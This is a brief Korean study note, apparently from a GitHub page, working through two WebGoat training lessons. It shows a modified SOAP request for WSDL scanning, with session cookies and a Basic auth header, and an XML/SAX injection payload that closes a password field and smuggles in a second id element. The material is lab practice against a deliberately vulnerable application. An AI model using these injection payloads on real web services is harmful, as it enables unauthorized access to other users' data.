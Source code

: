



WSDL Scanning

-> packet을 캡쳐해서 다음과 같이 바꿈

* header

```text
POST http://xxx.xxx.xxx.xxx:xxxx/WebGoat/services/SoapRequest HTTP/1.0
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Referer: http://192.168.111.128:8080/WebGoat/attack?Screen=39&menu=1900
Accept-Language: ko
Content-Type: text/xml
Proxy-Connection: Keep-Alive
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1) Paros/3.2.13
Host: 192.168.111.128:8080
Content-length: 59
Pragma: no-cache
Cookie: JSESSIONID=984C8EF36602A2839CF3DE1B28464897; ASPSESSIONIDQQDQSSBT=OGNFNHNDNAJMCJIMABEBPLIJ; ASPSESSIONIDQQARRRDT=ABKLOKODBHHMKAPEFJDDEKOJ
Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=
SOAPAction: /
```



* body

```text
<?xml version="1.0" encoding="UTF-8" ?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<SOAP-ENV:Body>
<ns1:getFirstName SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" xmlns:ns1="http://lessons">
<id xsi:type="xsd:int">101</id>
</ns1:getFirstName>
</SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```





Web Service SAX injection

input 태그에

`a</password><id xsi:type='xsd:int'>199</id><password xsi:type='xsd:string'>a`

입력





*****

# 세션
